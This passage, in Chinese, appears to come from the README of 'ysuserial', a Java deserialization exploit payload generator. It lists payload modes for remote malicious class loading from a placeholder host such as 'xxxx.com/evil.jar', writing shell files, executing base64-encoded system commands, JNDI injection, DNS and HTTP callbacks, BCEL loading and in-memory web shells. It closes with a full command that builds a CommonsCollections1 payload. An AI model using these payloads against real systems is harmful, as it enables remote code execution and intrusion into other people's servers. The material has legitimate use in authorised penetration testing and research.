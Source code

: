 - TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()`
  来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#d2hvYW1p`
- PB ：ProcessBuilder 通过 `ProcessBuilder.start()` 来执行系统命令，使用命令 `PB-lin-d2hvYW1p` / `PB-win-d2hvYW1p`
  分别在不同操作系统执行命令
- SE ：ScriptEngine - 通过 `ScriptEngineManager.getEngineByName('js').eval()` 来解析 JS 代码调用 Runtime
  执行命令，使用命令 `SE-d2hvYW1`
- DL ：DNS LOG - 通过 `InetAddress.getAllByName()` 来触发 DNS 解析，使用命令 `DL-xxxdnslog.cn`
- HL ：HTTP LOG - 通过 `URL.getContent()` 来触发 HTTP LOG，使用命令 `HL-http://xxx.com`
- BC ：BCEL Classloader - 通过 `..bcel...ClassLoader.loadClass().newInstance()` 来加载 BCEL
  类字节码，使用命令 `BC-$BCEL$xxx`，也可以使用 `BC-EX-TomcatEcho` 或 `BC-LF-/tmp/aaa.class` 来执行高级功能
- JD ：JNDI Lookup - 通过 `InitialContext.lookup()` 来触发 JNDI 注入，使用命令 `JD-ldap://xxx/xx`
- 其他：普通命令执行 - 通过 `Runtime.getRuntime().exec()` 执行系统命令，使用命令 `whoami`

这里需要注意的是，使用 PB 执行系统命令、WF 写入文件的内容、SE 执行命令时，为了防止传参错误，需要<font color="purple">对传入的命令使用
base64 编码</font>。

除了上面的利用，项目也通过 ScriptEngineManager 执行 JS 的方式支持了 `EX-` 的写法，也就是说针对 ChainedTransformer 利用方式也可以打入内存马或回显。

**命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p PB-lin-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==
```

效果图：

![iShot_2022-06-18_20.38.31](images/iShot_2022-06-18_20.38.31.png)
